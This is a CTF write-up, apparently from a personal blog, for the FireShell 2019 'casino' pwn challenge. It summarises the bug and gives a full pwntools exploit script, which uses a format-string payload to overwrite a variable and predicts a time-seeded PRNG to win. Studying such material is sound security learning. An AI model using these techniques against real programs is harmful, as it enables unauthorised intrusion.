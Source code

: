 +++
title = "FireShell 2019 - casino"
date = "2019-01-28 06:54:28"
categories = ["pwn", "writeup"]
+++
## download
- [binary](/assets/fireshell/casino/casino.zip)
- [solve.py](/assets/fireshell/casino/solve.py)

## summary
1. PRNG seed with `time(0) / 10 + bet`
2. Guess the number game, but intended to never win the game because the loop will only reach 99 not 100
2. format string in `main` used to overwrite `bet` with value > 1, so that you can win the game

## exploit

```python
#!/usr/bin/env python
from pwn import *
import sys, ctypes

context.terminal = ['tmux', 'split-window', '-h']
elf = ELF('./casino', checksec=False)

libc = ctypes.CDLL('/usr/lib64/libc.so.6')
seed = libc.time(0) / 10

if sys.argv.__len__() == 3:
    r = remote(sys.argv[1], int(sys.argv[2]))
else:
    r = elf.process(aslr=False)
    gdb.attach(r, 'brva 0xac3')

payload  = '___%11$n{}'.format(p64(0x602020)) # overwrite bet with 3
r.sendafter('? ', payload)

libc.srand(seed + 3)

for i in range(99):
    ans = str(libc.rand())
    print r.recv()
    r.sendline(ans)

r.interactive()

# F#{buggy_c4s1n0_1s_n0t_f41r!}
```

## footnote
should be fairly easy, but connection problem in early CTF will get you timeout before reach loop end. Tried this a couple of times before getting a good one.